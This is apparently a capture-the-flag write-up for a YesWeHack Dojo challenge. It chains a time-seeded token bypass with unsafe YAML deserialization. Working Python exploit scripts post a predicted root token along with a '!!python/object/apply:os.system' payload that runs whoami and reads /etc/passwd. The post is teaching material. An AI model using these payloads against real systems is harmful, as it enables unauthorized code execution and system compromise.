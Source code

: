 ```yaml
---
layout: single
title: Remote Code Execution via Unsafe YAML Deserialization with Token Bypass - DOJO 43
excerpt: "The challenge code performs unsafe YAML deserialization (yaml.load) on user-controlled input without proper validation or sandboxing, allowing remote code execution (RCE) via crafted payloads. A token-based access control is implemented comparing a guest token with a generated root token, but the check is flawed or bypassable, enabling an attacker to pass the authentication and reach the vulnerable YAML deserialization code. However, an attacker can bypass or control these tokens (e.g., via predictable token generation using the current time as seed), allowing access to the deserialization block where yaml.load is called with yaml.Loader. This allows arbitrary command execution via the !!python/object/apply:os.system YAML tag or similar techniques."
date: 2025-08-03
classes: wide
header:
  teaser: /img2/images/ywh.png
  teaser_home_page: true
  icon: /img2/images/ywh_logo.png
categories:
  - yeswehack
  - Web
tags:
  - Auth-Token Bypass
  - Python Deserialization Attack (DES-Yaml)
---
```



![](/img2/Pasted%20image%2020250803225647.png)

> By reviewing the Python code, we see that for our token to be valid, it must be the same as the token generated by the server.

```python
import random
import time

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))

tokenRoot = genToken(int(time.time()) // 1)
print(f"TOKEN: {tokenRoot} --> TIME: {int(time.time()) // 1}")
```

![](/img2/Pasted%20image%2020250803230052.png)

> To replicate the behavior when generating the cookie, we can create a small script. By running the script several times, we can see that there's a range in which the same session cookie is generated, due to the poor implementation of time.

```python
import requests
import random
import time
import json

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))


url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": 'testing', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass     
```

```bash
python3 cookie_poc.py > index.html
```

```bash
python3 -m http.server 80
```

![](/img2/Pasted%20image%2020250803230643.png)

> By replicating the result from our script on our own HTTP server, we can see that we've successfully bypassed the session token.

![](/img2/Pasted%20image%2020250803231016.png)

```python
!!python/object/apply:os.system ["whoami"]
```

> Once we gained access to the firmware update function, we reviewed the code and saw that it uses the 'yaml.load()' function, which is vulnerable to Code Execution via Unsafe YAML Deserialization.

```python
import requests
import random
import time
import json
from bs4 import BeautifulSoup

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))



url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": '!!python/object/apply:os.system ["cat /etc/passwd"]', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass
```

```bash
python3 poc.py
```

![](/img2/Pasted%20image%2020250803231448.png)

 > To achieve RCE, it's necessary to send a request with the token bypass and the payload in the 'yaml' field.

## Flag

![](/img2/Pasted%20image%2020250803231544.png)

> Once we're able to execute arbitrary commands within the system, we can retrieve the flag at the end of the request.